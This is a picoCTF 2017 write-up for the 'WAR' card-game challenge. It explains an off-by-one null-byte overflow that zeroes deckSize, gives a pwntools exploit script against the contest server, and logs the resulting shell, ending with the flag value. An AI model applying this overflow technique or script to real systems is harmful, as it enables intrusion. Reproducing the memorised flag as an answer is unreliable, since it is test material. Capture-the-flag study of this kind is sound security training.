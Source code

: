 ## WAR - 125

### Description

Win a simple [Card Game](war). [Source](war.c). Connect on shell2017.picoctf.com:5194.

### Hint

  - Bugs typically happen in groups. If you find one, what does it allow you to do?

### Write up

The bug happens in `readInput()` function.

```c
unsigned int readInput(char * buff, unsigned int len){
    size_t count = 0;
    char c;
    while((c = getchar()) != '\n' && c != EOF){
        if(count < (len-1)){
            buff[count] = c;
            count++;
        }
    }
    buff[count+1] = '\x00';
    return count;
}
```

The function gets input from the user. When adding NULL byte at the end, it uses 'count + 1' index.

But as count increments to len-1, count + 1 in the end is actually len, which occurs overflow.

```c
if(!readInput(gameData.name,NAMEBUFFLEN)){
    printf("Read error. Exiting.\n");
    exit(-1);
}
```

So here is where we can make the overflow happen.

```c
typedef struct _gameState{
  int playerMoney;
  player ctfer;
  char name[NAMEBUFFLEN];
  size_t deckSize;
  player opponent;
} gameState;
```

`gameData.name` is beside of `deckSize`.

```c
gameData.deckSize--;
if(gameData.deckSize == 0){
    printf("All card used. Card switching will be implemented in v1.0, someday.\n");
    exit(0);
}
```

and the `deckSize` is used for checking game end.

But if we set `deckSize` to 0 by overflow, the if statement become always false ( startswith -1 ), so the game never ends!

And then,

```c
gameData.ctfer.playerCards.top++;
gameData.opponent.playerCards.top++;
```

```c
size_t playerIndex = gameData.ctfer.playerCards.top;
size_t oppIndex = gameData.opponent.playerCards.top;
oppCard = &gameData.opponent.playerCards.cards[oppIndex];
playCard = &gameData.ctfer.playerCards.cards[playerIndex];
```

these code will make some unexpected results.

```python
from pwn import *
import sys
import struct

p = remote('shell2017.picoctf.com', 5194)
# p = process(['./matrix'])

p.sendline('a'*36)
p.recvuntil('Welcome aaa')
p.recvline()

while True:
    p.sendline('1')

    p.recvline() # you have ...
    p.recvline() # How much would you ...
    p.recvline() # you bet %d
    p.recvline() # The opponent ...
    p.recvline() # You have a ...

    r = p.recvline()

    if 'You lost!' in r:
        pass
    else:
        r = p.recvline() # Cheater... or You auctually won!
        print 'recv ' + r
        if "Nice job" in r:
            p.interactive()
            break

    p.recvline() # newline in the end
```

What this code does is,

  - bet 1 while you are losing (top < 26 )
  - bet 1 while you are considered as cheating ( top > 26)

and at some point, you starts winning.

At that point, the console becomes interactive mode, and you can start a real betting.

```
You have 33 coins.
How much would you like to bet?
$ 30
you bet 30.
The opponent has a 0 of suit 0.
You have a 14 of suit 2.
You won? Hmmm something must be wrong...
You actually won! Nice job

You have 63 coins.
How much would you like to bet?
$ 60
you bet 60.
The opponent has a 0 of suit 0.
You have a 13 of suit 2.
You won? Hmmm something must be wrong...
You actually won! Nice job

...

You have 483 coins.
How much would you like to bet?
$ 20
you bet 20.
The opponent has a 0 of suit 0.
You have a 10 of suit 2.
You won? Hmmm something must be wrong...
You actually won! Nice job
You won the game! That's real impressive, seeing as the deck was rigged...
/bin/sh: 0: can't access tty; job control turned off
$ $ ls
flag.txt
war
war_no_aslr
xinetd_wrapper.sh
$ $ cat flag.txt
d64f04b89dbc6a41901c6a918a443a58
$
```

> d64f04b89dbc6a41901c6a918a443a58
